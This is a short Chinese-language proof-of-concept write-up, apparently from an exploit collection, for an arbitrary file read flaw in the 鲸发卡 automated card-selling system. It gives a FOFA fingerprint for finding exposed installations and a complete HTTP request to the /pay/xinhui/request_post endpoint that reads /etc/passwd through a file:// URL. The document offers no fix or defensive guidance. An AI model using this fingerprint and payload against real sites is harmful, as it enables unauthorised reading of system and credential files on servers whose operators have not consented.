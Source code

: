 ## 鲸发卡系统自动发卡网request_post存在任意文件读取漏洞

 **鲸发卡系统是一款专业的虚拟商品寄售系统，支持多种功能和模式，为商户和买家提供便捷、绿色、安全、快速的销售和购买体验。本文档介绍了鲸发卡系统的特色功能、客户案例.**

## fofa

```yaml
"/static/theme/maowang51/css/style.css"
```

## poc

```yaml
GET /pay/xinhui/request_post?url=file:///etc/passwd&post_data[1]=aaa HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
```

![image-20240709133653012](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407091337787.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/Cd50RjZcVMvv1sOBPR9gqg